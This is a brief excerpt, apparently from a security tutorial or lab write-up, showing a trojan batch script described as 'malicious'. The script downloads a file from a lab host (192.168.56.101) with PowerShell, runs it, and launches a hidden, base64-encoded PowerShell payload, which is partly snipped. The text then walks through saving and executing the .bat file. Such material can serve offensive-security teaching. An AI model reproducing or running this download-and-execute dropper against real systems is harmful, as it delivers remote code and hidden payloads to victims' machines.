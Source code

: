 ![trojan1](/images/5.png)

The following code is the complete batch script as run in this example:

```
cd %TEMP%
Powershell -Command "Invoke-WebRequest 'http://192.168.56.101/witch-head.png' -OutFile 'witch-head.png'"
witch-head.png
powershell -nop -sta -w 1 -enc SQB<SNIP>AFM
```

Once we have crafted our malicious batch script and saved it as a .bat file we can try executing it.

![trojan3](/images/7.png)
